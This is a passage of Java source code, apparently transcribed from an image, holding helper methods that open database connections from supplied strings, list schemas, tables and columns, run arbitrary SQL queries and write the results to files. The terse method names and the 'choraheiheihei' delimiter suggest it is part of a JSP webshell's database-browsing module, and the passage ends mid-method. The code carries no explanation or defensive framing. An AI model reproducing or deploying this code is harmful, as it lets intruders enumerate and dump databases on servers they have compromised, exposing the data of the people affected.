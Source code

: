       void MM(InputStream is, StringBuffer sb) throws Exception {  
           String l;  
           BufferedReader br = new BufferedReader(new InputStreamReader(is));  
          while ((l = br.readLine()) != null) {  
              sb.append(l + "\r\n");  
          }  
      }  

      void NN(String s, StringBuffer sb) throws Exception {  
          Connection c = GC(s);  
          ResultSet r = s.indexOf("jdbc:oracle")!=-1?c.getMetaData().getSchemas():c.getMetaData().getCatalogs();  
          while (r.next()) {  
               sb.append(r.getString(1) + "\t|\t\r\n");  
           }  
          r.close();  
           c.close();  
        }  

      void OO(String s, StringBuffer sb) throws Exception {  
       Connection c = GC(s);  
          String[] x = s.trim().split("choraheiheihei");  
         ResultSet r = c.getMetaData().getTables(null,s.indexOf("jdbc:oracle")!=-1?x.length>5?x[5]:x[4]:null, "%", new String[]{"TABLE"});  
          while (r.next()) {  
             sb.append(r.getString("TABLE_NAME") + "\t|\t\r\n");  
         }  
         r.close();  
       c.close();  
     }  

       void PP(String s, StringBuffer sb) throws Exception {  
          String[] x = s.trim().split("\r\n");  
           Connection c = GC(s);  
         Statement m = c.createStatement(1005, 1007);  
          ResultSet r = m.executeQuery("select * from " + x[x.length-1]);  
          ResultSetMetaData d = r.getMetaData();  
          for (int i = 1; i <= d.getColumnCount(); i++) {  
             sb.append(d.getColumnName(i) + " (" + d.getColumnTypeName(i)+ ")\t");  
       }  
          r.close();  
        m.close();  
           c.close();  
       }  

      void QQ(String cs, String s, String q, StringBuffer sb,String p) throws Exception {  
           Connection c = GC(s);  
          Statement m = c.createStatement(1005, 1008);  
         BufferedWriter bw = null;  
          try {  
              ResultSet r = m.executeQuery(q.indexOf("--f:")!=-1?q.substring(0,q.indexOf("--f:")):q);  
              ResultSetMetaData d = r.getMetaData();  
               int n = d.getColumnCount();  
             for (int i = 1; i <= n; i++) {  
                  sb.append(d.getColumnName(i) + "\t|\t");  
            }  
              sb.append("\r\n");  
              if(q.indexOf("--f:")!=-1){  
                 File file = new File(p);  
                   if(q.indexOf("-to:")==-1){  
                       file.mkdir();  
                 }  
                bw = new BufferedWriter(new OutputStreamWriter(new FileOutputStream(new File(q.indexOf("-to:")!=-1?p.trim():p+q.substring(q.indexOf("--f:") + 4,q.length()).trim()),true),cs));  
              }  